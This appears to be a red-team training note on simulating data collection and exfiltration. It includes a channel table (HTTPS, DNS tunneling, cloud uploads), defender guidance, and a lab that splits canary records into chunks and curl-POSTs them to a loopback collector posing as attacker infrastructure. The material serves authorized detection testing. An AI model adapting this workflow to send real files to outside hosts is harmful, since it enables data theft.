

# 📤 Data Collection & Exfiltration Simulation

> [!warning] Authorized adversary emulation only
> Simulate collection and exfiltration with **canary data only** — never real client data. The objective is to measure whether DLP, egress control, and monitoring detect the transfer, then hand the blue team the gap. Real exfiltration is a breach you would be causing.

## Parent Learning Order
Red Team Credential Access & Lateral Movement -> Data Collection & Exfiltration Simulation

## Start at Zero: Proving the Crown Jewels Can Leave — Safely

The final objective of many operations is to show that an attacker could **exfiltrate sensitive data**. This note covers the two closing steps: **collection** (finding and staging the target data) and **exfiltration** (moving it out over a channel) — done as a *simulation* with canary data, to measure whether the client's **DLP and egress controls** catch it. It complements the pentest **Data Collection & Post-Exploitation Cleanup** leaf (which proved access *without* exfiltration); here the red-team focus is the **channel and its detectability** — does staged data leaving over DNS, HTTPS, or a cloud service trip the defenses?

The defining discipline: **you exfiltrate a canary dataset, never real data**, and you *measure the channel* — volume, protocol, destination reputation, timing — because that is exactly what DLP and egress monitoring key on.

> [!tip] The analogy, and where it breaks
> Exfil simulation is like a security consultant testing whether they can carry a *marked decoy document* out of the building past the guards and scanners — the decoy proves the exit works without leaking anything real. The analogy breaks on channels: a physical document goes out one door, whereas data can dribble out disguised as DNS lookups, blend into HTTPS, or ride a legitimate cloud upload — so the test isn't one exit, it's *many covert channels*, each with a different detection signature.

**Prerequisites:** the Post-Ex **Data Collection & Post-Exploitation Cleanup** leaf, the Networking **Egress Control** and **DNS Security** leaves (the channels/defenses), and **C2 Infrastructure & Redirectors**.

## Collection: Staging the Target

Collection finds and prepares the objective data: locating it, optionally compressing/encrypting it, and **staging** it for transfer. Red-team collection is *targeted* (the specific canary "crown jewels" in scope) and quiet — a mass sweep is loud (see the credential-access leaf). The staged bundle is the decoy dataset the exfil step will move.

## Exfiltration Channels and Their Signatures

| Channel | Blends into | Detection signature |
|---|---|---|
| **HTTPS to attacker infra** | Web traffic | Destination reputation, volume, JA3/TLS |
| **DNS tunneling** | DNS lookups | Long/high-entropy labels, query volume |
| **Cloud storage / SaaS** | Legit uploads | Upload to unusual tenant, volume |
| **Email / messaging** | Comms | Attachment size, external recipient |
| **Physical / removable** | — | USB events, endpoint DLP |

Each trades **bandwidth vs stealth**: HTTPS is fast but destination-visible; DNS is slow but traverses restrictive egress. The unifying detection theme is **anomalous outbound volume/pattern to an unusual destination** — which is precisely what DLP and egress monitoring exist to catch, and what the simulation measures.



## Failure Modes and Interpretation

- **Using real data.** The cardinal violation — a simulation that moves real client data *is* a breach you caused. Canary datasets only.
- **Ignoring the channel's signature.** "It got out" is incomplete; capture whether DLP/egress flagged the volume/destination/pattern — that's the deliverable.
- **Loud collection.** A mass sweep to stage data is noisy (credential-access leaf lesson); target the canary crown jewels.
- **One channel tested.** Different channels have different detection profiles; testing only HTTPS misses DNS/cloud gaps.
- **No teardown of exfil infra.** The collector/redirector must be torn down (OpSec & Teardown leaf) — a live exfil endpoint is residual exposure.

## Security Implications — the Defender's View

- **DLP + egress control are the direct defenses:** classify and watch crown-jewel data, allow-list egress destinations, and inspect DNS/HTTPS — the Networking egress-control and DNS-security leaves are the how.
- **Data-centric protection blunts impact:** encryption at rest, tokenization, and rights management mean exfiltrated bytes are ciphertext/tokens, not usable records — even a successful channel yields little.
- **Anomaly detection:** unusual outbound *volume*, connections to young/low-reputation destinations, and high-entropy/long DNS queries are the signals; baselining normal egress makes anomalies visible.
- **Honeytoken datasets:** a canary "crown-jewel" file that alerts when read or when it leaves the network turns exfil into a high-fidelity detection.
- **The exercise's value:** a per-channel detection outcome ("HTTPS bulk upload caught; slow DNS exfil missed") tells the blue team exactly which egress gap to close.

## Authorized Lab: Exfiltrate a Canary Dataset and Measure Detection

> [!info] Runs on one Linux machine — stage a canary dataset, exfiltrate it in chunks to a loopback collector, and run a volume/pattern detector that flags it
> Canary data only, loopback only. Step 5 cleans up.

### Step 1 — A canary "crown-jewel" dataset (never real data)

```bash
mkdir -p /tmp/exfil-lab && cd /tmp/exfil-lab
python3 -c "print('\n'.join('CANARY-RECORD-%04d'%i for i in range(200)))" > crown.csv
echo "staged canary dataset: $(wc -l < crown.csv) synthetic records"
```

```text
staged canary dataset: 200 synthetic records
```

### Step 2 — A loopback collector that logs each inbound chunk

```bash
cd /tmp/exfil-lab
cat > collector.py <<'EOF'
from http.server import BaseHTTPRequestHandler, HTTPServer
class H(BaseHTTPRequestHandler):
    def log_message(self,*a): pass
    def do_POST(self):
        n=int(self.headers.get('Content-Length',0)); self.rfile.read(n)
        open('/tmp/exfil-lab/ingress.log','a').write("chunk %d bytes\n"%n)
        self.send_response(200); self.end_headers()
HTTPServer(("127.0.0.1",9200),H).serve_forever()
EOF
: > ingress.log
python3 collector.py &>/dev/null & sleep 1; echo "collector up on 127.0.0.1:9200"
```

```text
collector up on 127.0.0.1:9200
```

### Step 3 — Exfiltrate in chunks over HTTP (a covert-channel stand-in)

```bash
cd /tmp/exfil-lab
split -l 40 crown.csv chunk_          # break into pieces (staging for exfil)
for c in chunk_*; do curl -s -X POST --data-binary @"$c" http://127.0.0.1:9200/ >/dev/null; done
echo "exfil complete: $(ls chunk_* | wc -l | tr -d ' ') chunks sent; collector logged $(grep -c chunk ingress.log) chunks"
```

```text
exfil complete: 5 chunks sent; collector logged 5 chunks
```

### Step 4 — Run a DLP/egress-style detector on the transfer

```bash
cd /tmp/exfil-lab
total=$(awk '{s+=$2} END{print s}' ingress.log)
echo "outbound volume to a single destination: ${total} bytes across $(grep -c chunk ingress.log) POSTs"
echo "DLP rule: >1KB canary-pattern data egressing to one host = exfil alert."
grep -q CANARY crown.csv && echo "DETECTION: canary-tagged crown-jewel data left the host -> ALERT (honeytoken + volume)."
echo "Finding: HTTPS bulk channel is DETECTABLE by volume+honeytoken. Test DNS/slow channels next for the gap."
```

```text
outbound volume to a single destination: <N> bytes across 5 POSTs
DLP rule: >1KB canary-pattern data egressing to one host = exfil alert.
DETECTION: canary-tagged crown-jewel data left the host -> ALERT (honeytoken + volume).
Finding: HTTPS bulk channel is DETECTABLE by volume+honeytoken. Test DNS/slow channels next for the gap.
```

### Step 5 — Teardown (kill collector, remove all data)

```bash
pkill -f 'exfil-lab/collector.py' 2>/dev/null
cd /; rm -rf /tmp/exfil-lab; ls -d /tmp/exfil-lab 2>&1 | tail -1
```

```text
ls: cannot access '/tmp/exfil-lab': No such file or directory
```

**What you should now be able to do:** stage a targeted canary dataset, exfiltrate it over a channel while measuring its detection signature (volume/destination/pattern), compare channels by bandwidth vs stealth, and name DLP/egress-control/data-centric/honeytoken defenses — never moving real data.

## Crook → Operator → Root Checkpoint

- **Crook:** Explain why exfil simulation uses canary data and measures the channel, and what collection/staging are.
- **Operator:** Stage and exfiltrate a canary dataset over a channel, and measure the volume/destination/pattern a DLP would detect.
- **Root:** Compare exfil channels by bandwidth vs stealth and detection signature, explain why data-centric protection + egress control + honeytokens are the defenses, and why the deliverable is a per-channel detection outcome.

---
> 🔼 Up: [[Lateral Operations & Objectives]]
